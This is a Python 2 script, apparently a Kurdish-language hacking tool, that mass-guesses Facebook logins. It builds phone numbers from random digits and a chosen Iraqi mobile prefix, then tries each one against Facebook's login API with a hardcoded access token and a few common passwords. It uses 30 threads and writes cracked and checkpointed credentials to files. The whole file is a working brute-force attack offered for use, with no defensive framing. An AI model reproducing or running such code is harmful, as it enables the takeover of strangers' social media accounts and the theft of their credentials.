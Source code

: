 import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(100000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 nmbr.py')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit'
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = logo ="""

 
__    ___   _      __    _      _     _     ___   ___  
 / /\  | |_) \ \_/  / /\  | |\ | | |_/ | | | | |_) | | \ 
/_/--\ |_| \  |_|  /_/--\ |_| \| |_| \ \_\_/ |_| \ |_|_/
                                            

"""
back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print 42 * '\x1b[1;91m='
    print '\x1b[1;94m[1]\x1b[1;92m KURDISTAN         \x1b[1;91m\xe2\x87\x8b  \x1b[1;94m[Up]\x1b[1;93m zhmarakany kurdstan '
    print 42 * '\x1b[1;91m='
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n\x1b[1;91mSelect Option \x1b[1;93m>>>\x1b[1;95m  ')
    if bch == '':
        print '[!] Fill in correctly'
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print '\x1b[1;92m0770, 0750, 0773, 0751, 0771, 0772, 0780, 0781, 0782, 0783'
        try:
            c = raw_input(' choose code  : ')
            k = ''
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
    elif bch == '0':
        exb()
    else:
        print '[!] Fill Ba Kalk Naya'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Hamw Raqamakan: ' + xxx)
    time.sleep(0.1)
    psb('\x1b[1;91m[\xe2\x9c\x93]\x1b[1;94m Tkaya Chawarwan Ba ...')
    time.sleep(0.1)
    psb('[!] Bo Wastan Dni Toolaka CTRL+Z')
    time.sleep(0.5)
    print 42 * '\x1b[1;91m='

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass1 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass2 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass2 + '\n')
                okb.close()
                oks.append(c + user + pass2)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass2 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass2 + '\n')
                cps.close()
                cpb.append(c + user + pass2)
            else:
                pass3 = '1234554321'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass3 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass3 + '\n')
                okb.close()
                oks.append(c + user + pass3)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass3 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass3 + '\n')
                cps.close()
                cpb.append(c + user + pass3)
            else:
                pass4 = '112233445566'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')
                okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print 42 * '\x1b[1;91m='
    print '[\xe2\x9c\x93]\x1b[1;93m Process Has Been Completed ....'
    print '[\xe2\x9c\x93]\x1b[1;92m Total successfull/\x1b[1;96mcheckpoint : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93]\x1b[1;91m CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 .README.md')
if __name__ == '__main__':
    menu()
